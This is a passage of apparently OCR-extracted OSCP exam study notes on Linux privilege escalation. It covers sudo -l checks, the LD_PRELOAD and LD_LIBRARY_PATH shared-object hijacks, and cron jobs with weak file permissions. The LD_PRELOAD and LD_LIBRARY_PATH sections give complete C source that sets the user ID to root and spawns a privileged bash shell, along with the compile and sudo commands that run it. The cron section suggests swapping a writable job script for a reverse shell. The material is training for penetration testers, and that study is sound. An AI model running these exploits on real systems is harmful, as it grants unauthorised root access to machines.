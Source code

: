 # Run a program using sudo:sudo <program>​# Run a program as a specific user:sudo -u <username><program>​# List programs a user is allowed to run:sudo -l​# Login as another user:sudo -i -u scriptmanagerIf you are part of group and can run specified , check [https://gtfobins.github.io/](https://gtfobins.github.io/) with that binary on how to liverage your access to gain root with that binary
### **LD_PRELOAD**[](https://gabb4r.gitbook.io/oscp-notes/linux-post-exploitation/#ld_preload)
LD_PRELOAD is an environment variable which can be set to the path of a shared object (.so) file.When set, the shared object will be loaded before any others.**By creating a custom shared object and creating an init() function, we can execute code as soon as the object is loaded.****Exploitation -****1. **Run 
```
sudo -l
```
to check if **env_keepoption ** is set![media-DvBlbH](../media/media-DvBlbH.png)
2. Create a file (**preload.c**) with the following contents:#include <stdio.h> #include <sys/types.h> #include <stdlib.h> void _init() { unsetenv("LD_PRELOAD"); setresuid(0,0,0); system("/bin/bash -p"); }3. Compile preload.c to preload.so:gcc -fPIC -shared -nostartfiles -o /tmp/preload.so preload.c4. Run any allowed program using sudo, **while setting the LD_PRELOAD environment variable to the full path of the preload.so file:**sudo LD_PRELOAD=/tmp/preload.so apache2
### **LD_LIBRARY_PATH**[](https://gabb4r.gitbook.io/oscp-notes/linux-post-exploitation/#ld_library_path)
The LD_LIBRARY_PATH environment variable contains a set of directories where shared libraries are searched for first.The 
```
ldd
```
command can be used to print the shared libraries used by a program:
```
ldd /usr/sbin/apache2
```
By creating a shared library with the same name as one used by a program, and setting LD_LIBRARY_PATH to its parent directory, the program will load our shared library instead.**Exploitation -****1. **Run 
```
lld
```
against the apache2 program file -$ ldd /usr/sbin/apache2 linux-vdso.so.1 => (0x00007fff063ff000) ... libcrypt.so.1 => /lib/libcrypt.so.1 (0x00007f7d4199d000) libdl.so.2 => /lib/libdl.so.2 (0x00007f7d41798000) libexpat.so.1 => /usr/lib/libexpat.so.1 (0x00007f7d41570000) /lib64/ld-linux-x86-64.so.2 (0x00007f7d42e84000)Hijacking shared objects using this method is hit or miss. Choose one from the list and try it **(libcrypt.so.1 seems to work well).**2. Create a file (**library_path.c**) with the following contents:#include <stdio.h> #include <stdlib.h> ​static void hijack() __attribute__((constructor)); ​void hijack() { unsetenv("LD_LIBRARY_PATH"); setresuid(0,0,0); system("/bin/bash -p"); }3. Compile library_path.c into libcrypt.so.1:gcc -o libcrypt.so.1 -shared -fPIC library_path.c4. Run apache2 using sudo, while setting the LD_LIBRARY_PATH environment variable to the current path (where we compiled library_path.c):sudo LD_LIBRARY_PATH=. apache2
## Cron Jobs[](https://gabb4r.gitbook.io/oscp-notes/linux-post-exploitation/#cron-jobs)
- Cron jobs are programs or scripts which users can schedule to run at specific times or intervals.
- Cron jobs run with the security level of the user who owns them.
![media-apciDM](../media/media-apciDM.png)
cat /etc/crontab​crontab -e
### Weak File Permission[](https://gabb4r.gitbook.io/oscp-notes/linux-post-exploitation/#weak-file-permission)
Misconfiguration of file permissions associated with cron jobs can lead to easy privilege escalation. If we can write to a program or script which gets run as part of a cron job, we can replace it with our own code (Most of time reverse shell)ls -la <Path_of_file_using_in_cronjob>